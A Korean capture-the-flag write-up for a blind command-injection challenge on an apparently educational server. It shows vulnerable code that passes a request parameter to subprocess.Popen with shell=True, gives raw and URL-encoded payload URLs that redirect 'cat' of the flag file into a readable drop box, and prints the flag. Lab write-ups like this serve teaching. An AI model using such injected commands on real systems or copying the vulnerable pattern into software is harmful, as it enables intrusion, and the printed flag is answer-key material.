

# 11. Command Injection

## 문제 설명
`cmd` 파라미터를 `shell=True`로 그대로 실행하는 임의 명령 실행(RCE) 취약점.
다만 명령 출력은 반환하지 않고 항상 `"!"`만 응답하는 Blind 형태이다.

```python
cmd = request.args["cmd"]
p = subprocess.Popen(cmd, shell=True, ...)
return "!"     # 출력 미반환 = Blind
```

flag는 `/command_injection_flag.txt` 파일에 있으며,
출력을 회수하는 방법은 페이지 안내에 명시되어 있다.
- 적기: `?cmd=<명령> > /tmp/out/<개인 해시>`
- 읽기: `GET /out` (접속 IP 기반 개인 회수함, 읽으면 즉시 삭제)

## 분석
명령은 실행되지만 결과가 응답에 없으므로, 명령의 출력을 개인 회수함 파일로
리다이렉트(`>`) 한 뒤 `/out`으로 읽어오면 된다. 회수함 경로는 접속 IP로 생성되어
본인만 접근할 수 있다.

## 익스플로잇

### 1) flag를 개인 회수함에 기록
```
http://edu.arang.kr:9206/?cmd=cat /command_injection_flag.txt > /tmp/out/<개인 해시>
```
URL 인코딩 버전:
```
?cmd=cat%20/command_injection_flag.txt%20%3E%20/tmp/out/<개인 해시>
```
응답은 `!`만 표시되지만, 명령은 정상 실행되어 flag가 회수함에 저장된다.

### 2) 회수함 읽기
```
http://edu.arang.kr:9206/out
```
저장된 flag가 출력된다.



## 플래그
```
flag{6f12d16f718d9efeca7a}
```
